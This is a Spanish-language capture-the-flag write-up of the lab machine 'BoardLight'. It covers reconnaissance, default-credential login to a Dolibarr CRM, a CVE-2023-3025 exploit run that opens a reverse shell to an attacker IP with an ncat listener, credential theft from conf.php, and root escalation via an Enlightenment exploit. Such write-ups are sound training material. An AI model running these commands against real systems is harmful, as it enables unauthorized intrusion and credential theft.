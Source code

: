 # BoardLight

✍️ Autor: cY83rR0H1t 🔍 Dificultad: Fácil 📅 Fecha de creación: 25/05/2024

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.11.11
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 9.46.25 (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.11.11
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 9.48.14.png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 10.10.11.11
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 9.49.33.png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web nos salga una página de una consultoría de ciberseguridad.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 9.51.10.png" alt=""><figcaption></figcaption></figure>

Inspeccionamos el código fuente y no vemos nada relevante.&#x20;

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster vhost --domain board.htb -u http://10.10.11.11 \
    -w /usr/local/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt \ 
    --append-domain
```

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 10.41.24.png" alt=""><figcaption></figcaption></figure>

Hemos descubierto un subdominio por lo que editamos el fichero `/etc/hosts` con el subdominio y la IP.

Con la herramienta Wfuzz vemos los directorios y archivos que contiene la página.&#x20;

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 10.27.01.png" alt=""><figcaption></figcaption></figure>

Nos llama la atención el archivo index.php por lo que realizamos la búsqueda.

```bash
http://crm.board.htb/index.php
```

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 10.47.17.png" alt=""><figcaption></figcaption></figure>

Es un panel de login por lo que probamos las credenciales más comunes. Probamos admin tanto para contraseña y usuario y nos deja iniciar sesión correctamente.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 10.48.51.png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Revisamos la versión por Internet si tiene alguna vulnerabilidad. Efectivamente tiene una vulnerabilidad que intentaremos explotar haciendo una Reverse Shell.

{% @github-files/github-code-block url="https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-3025" %}

Ejecutamos el script mientras nos ponemos en escucha para conectarnos.

```
python3 exploit.py http://crm.board.htb admin admin 10.10.16.13 9001
```

```bash
ncat -l -p 9001
```

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 11.04.46.png" alt=""><figcaption></figcaption></figure>

En esta etapa, tras obtener la shell en la máquina objetivo, descubrimos que el flag no se encuentra en esta máquina en particular. En cambio, el objetivo ahora es buscar las credenciales del otro usuario en esta misma máquina que indagando por documentaciones de Dolibarr se llama **Larissa**.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 11.10.33.png" alt=""><figcaption></figcaption></figure>

Mostramos el contenido del archivo `conf.php`

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 11.16.11 (1).png" alt=""><figcaption></figcaption></figure>

Hemos descubierto las credenciales por lo que nos conectamos a través del serivicio **SSH**.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 11.18.27.png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar pero nos pide contraseña.

Listamos el contenido que tiene el usuario y descubrimos la flag del usuario.&#x20;

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 11.20.17.png" alt=""><figcaption></figcaption></figure>

Utilicé **LinPEAS**, un script diseñado para identificar posibles rutas de escalamiento de privilegios en sistemas operativos Linux, Unix y macOS. Para obtener más información sobre este script, pueden consultar el siguiente enlace: [LinPEAS en GitHub](https://github.com/Cerbersec/scripts/blob/master/linux/linpeas.sh).

Primero, busqué el código del script en GitHub, lo copié y lo guardé en un archivo llamado l**inpeas.sh** en el directorio del usuario **Larissa**. Para hacer esto, utilicé el editor nano con el siguiente comando:

```bash
nano linpeas.sh
```

Dentro de este archivo, pegué todo el código obtenido de GitHub y lo guardé. Sin embargo, para ejecutar el script, necesitamos otorgarle permisos de ejecución, lo cual se hace con el siguiente comando:

```bash
chmod +x linpeas.sh
```

Luego de esto ejecutamos el script de la siguiente manera:

```
bash linpeas.sh
```

Esperamos a que el script termine su ejecución. Una vez completado, revisamos los archivos de interés. **LinPEAS** realiza un escaneo exhaustivo del sistema para identificar archivos y configuraciones que podrían presentar vulnerabilidades para la escalada de privilegios.

Entre los archivos más relevantes o recurrentes se encuentran los relacionados con Enlightenment. Tras investigar, descubrimos que la **versión 0.23** de **Enlightenment** tiene una vulnerabilidad identificada con el código \[**CVE-2022–37706**]. Además, encontramos que existe un exploit disponible para explotar esta vulnerabilidad que coincide con el exploit que tiene Larissa.

```bash
./exploit.sh
```

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 11.35.48.png" alt=""><figcaption></figcaption></figure>

Ya somos **root** por lo que tenemos el máximo de los privilegios y al entrar en el directorio del root y al listarlo nos sale la última bandera.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 11.44.51.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1164).png" alt=""><figcaption></figcaption></figure>
